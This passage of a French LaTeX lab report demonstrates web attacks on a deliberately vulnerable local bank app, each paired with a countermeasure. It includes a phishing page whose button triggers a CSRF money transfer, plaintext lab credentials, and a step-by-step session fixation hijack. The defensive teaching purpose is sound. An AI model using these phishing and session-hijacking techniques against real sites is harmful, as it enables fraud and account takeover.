\end{lstlisting}

Un simple lien \texttt{<a href="http://vuln.bank.local:8080/transfer.php?to\_iban=...\\&amount=500">} déclenche un virement réel.

\subsection{Scénario d'attaque en deux étapes}

Mallory prépare deux pages sur son serveur :

\begin{description}
  \item[\texttt{csrf-email.html}] Un email de phishing simulé (\texttt{evil.attacker.lab/csrf-email.html}), semblant provenir du service sécurité CaptusBank, alertant Alice d'une activité suspecte.
  \item[\texttt{csrf-mail.html}] Une fausse page de sécurité CaptusBank qui reproduit fidèlement le design de la banque. Le bouton \og Bloquer et sécuriser mon compte \fg{} pointe en réalité vers l'URL CSRF.
\end{description}

\begin{lstlisting}[language=PHP, caption={csrf-mail.html — le bouton piégé}]
<!-- Alice croit bloquer une fraude : elle declenche un virement -->
<a class="btn-danger"
   href="http://vuln.bank.local:8080/transfer.php
         ?to_iban=FR7630001007940000000000042
         &amount=500
         &note=Securisation+compte">
    Bloquer et securiser mon compte
</a>
\end{lstlisting}

\subsection{Contre-mesure}

\begin{securebox}[CSRF]
L'application sécurisée génère un token aléatoire par session, inclus dans chaque formulaire et vérifié à chaque soumission :
\begin{lstlisting}[language=PHP, caption={transfer.php sécurisé — token CSRF}]
// Generation (security.php)
function csrf_token(): string {
    if (empty($_SESSION['_csrf']))
        $_SESSION['_csrf'] = bin2hex(random_bytes(32));
    return $_SESSION['_csrf'];
}

// Verification avant traitement
if (!csrf_check()) {
    http_response_code(400);
    die('CSRF token invalide.');
}
\end{lstlisting}
De plus, le cookie utilise \texttt{SameSite=Strict}, bloquant tout envoi cross-origin.
\end{securebox}

% -------- 3.5 MOTS DE PASSE EN CLAIR --------
\section{Stockage des mots de passe en clair}

\subsection{Vulnérabilité}

La base de données vulnérable stocke les mots de passe en texte clair :

\begin{lstlisting}[language=SQL, caption={Schéma vulnérable — mots de passe en clair}]
INSERT INTO users (username, password) VALUES
    ('alice',   'Password123!'),
    ('bob',     'BobPass456!'),
    ('mallory', 'EvilPass1!');
\end{lstlisting}

En cas d'accès non autorisé à la base (injection SQL, dump, accès physique), tous les comptes sont compromis instantanément.

\subsection{Contre-mesure}

\begin{securebox}[Mots de passe]
L'application sécurisée utilise bcrypt avec un facteur de coût de 12 :
\begin{lstlisting}[language=PHP, caption={Hachage bcrypt}]
// A l'inscription
$hash = password_hash($password, PASSWORD_BCRYPT, ['cost' => 12]);
// A la connexion
if (password_verify($password, $user['password_hash'])) { ... }
\end{lstlisting}
Chaque tentative de vérification prend ~200~ms. Un attaquant avec la base de données ne peut tester que quelques centaines de mots de passe par seconde — le brute-force devient impraticable.
\end{securebox}

% -------- 3.6 COOKIES --------
\section{Cookies non sécurisés}

\subsection{Vulnérabilité}

L'application vulnérable ne configure pas les attributs de sécurité des cookies :

\begin{lstlisting}[caption={Configuration PHP vulnérable}]
session.cookie_httponly = 0  ; Cookie lisible par JavaScript
session.cookie_secure   = 0  ; Cookie transmis en HTTP clair
session.cookie_samesite = "" ; Aucune restriction cross-site
\end{lstlisting}

Conséquence directe : tout XSS peut exfiltrer la session avec \texttt{document.cookie}.

\subsection{Contre-mesure}

\begin{securebox}[Cookies]
\begin{lstlisting}[language=PHP, caption={Configuration des cookies sécurisés}]
session_set_cookie_params([
    'httponly' => true,    // Invisible au JavaScript
    'secure'   => true,   // HTTPS uniquement
    'samesite' => 'Strict', // Bloque l'envoi cross-origin
]);
\end{lstlisting}
\end{securebox}

% -------- 3.7 INFORMATION DISCLOSURE --------
\section{Information Disclosure}

\subsection{Vulnérabilité}

L'application vulnérable expose des informations techniques qui facilitent la reconnaissance :

\begin{itemize}
  \item \textbf{En-tête HTTP} : \texttt{X-Powered-By: PHP/8.2.31} révèle la version exacte (possibles CVE)
  \item \textbf{Dans le HTML} : le SID courant est affiché en clair sur toutes les pages :
\end{itemize}

\begin{lstlisting}[language=PHP, caption={SID affiché en clair dans login.php}]
<p>SID actuel (pre-auth) : <code><?= session_id() ?></code></p>
\end{lstlisting}

Cette information a une utilité directe pour Mallory : elle \textbf{confirme visuellement} que le SID imposé a bien été accepté par le serveur.

\subsection{Contre-mesure}

\begin{securebox}[Information Disclosure]
\begin{lstlisting}[caption={php.ini sécurisé}]
expose_php     = Off  ; Supprime X-Powered-By
display_errors = Off  ; Pas d'erreurs PHP en production
\end{lstlisting}
Suppression de tout affichage du SID dans le HTML.
\end{securebox}

% ============================================================
\chapter{Démonstrations}
% ============================================================

\begin{infobox}
\textbf{Environnement des démos} \\
Stack Docker démarrée, hostnames configurés dans \texttt{/etc/hosts}, base de données réinitialisée. \\
\textbf{SID attaquant fixé} : \sid{ATTACKERfixedSID001} (uniquement des caractères alphanumériques — PHP rejette les tirets bas).
\end{infobox}

% -------- DÉMO 1A --------
\section{Démo 1A — Session Fixation via URL (phishing)}

\begin{demobox}[Session Fixation via phishing URL]
\textbf{Faille} : \texttt{use\_only\_cookies=0} + \texttt{use\_trans\_sid=1} + absence de \texttt{session\_regenerate\_id()} \\
\textbf{Acteurs} : fenêtre privée = Mallory $\mid$ fenêtre normale = Alice \\
\textbf{Prérequis} : Alice n'a jamais visité le site (aucun cookie existant)
\end{demobox}

\subsection*{Étape 1 — Mallory enregistre son SID en base}

Dans une fenêtre de navigation privée, Mallory visite :
\begin{center}
\http{http://vuln.bank.local:8080/login.php?PHPSESSID=ATTACKERfixedSID001}
\end{center}

La page affiche en bas : \og \textit{SID actuel (pré-auth) : \sid{ATTACKERfixedSID001}} \fg. Le serveur a accepté le SID imposé. Mallory se connecte avec ses propres identifiants (\texttt{mallory / EvilPass1!}) — le dashboard confirme que le SID n'a pas changé.

\begin{figure}[H]
\centering
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/demo1a-url-phpsessid.png}
  \caption{URL avec SID imposé}
\end{subfigure}
\hfill
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/demo1a-sid-avant-login.png}
  \caption{SID affiché sur la page de login}
\end{subfigure}
\caption{Étape 1 — Mallory impose son SID au serveur}
\end{figure}

\subsection*{Étape 2 — Alice clique le lien piégé}

Mallory envoie à Alice un email de phishing contenant le même lien. Alice l'ouvre dans une fenêtre normale. La page de login affiche \sid{ATTACKERfixedSID001} — Alice a maintenant ce cookie sans le savoir.

\subsection*{Étape 3 — Alice se connecte normalement}

Alice saisit \texttt{alice / Password123!}. Son dashboard s'affiche normalement. Le SID affiché :
\begin{center}
\textit{Session ID courant : \sid{ATTACKERfixedSID001}}
\end{center}

\textbf{Le SID n'a pas changé après l'authentification} — c'est la faille fondamentale.

\begin{figure}[H]
\centering
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/demo1a-sid-apres-login.png}
  \caption{SID identique après login d'Alice}
\end{subfigure}
\hfill
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/demo1a-mallory-voit-alice.png}
  \caption{Mallory voit le compte d'Alice}
\end{subfigure}
\caption{Étape 3-4 — Session hijacking réussi}
\end{figure}

\subsection*{Étape 4 — Mallory hijacke la session}

Dans sa fenêtre privée (cookie \sid{ATTACKERfixedSID001} toujours présent), Mallory navigue vers \http{/dashboard.php}. \textbf{Le compte d'Alice s'affiche — 12\,450~€}. Mallory n'a jamais connu le mot de passe d'Alice.

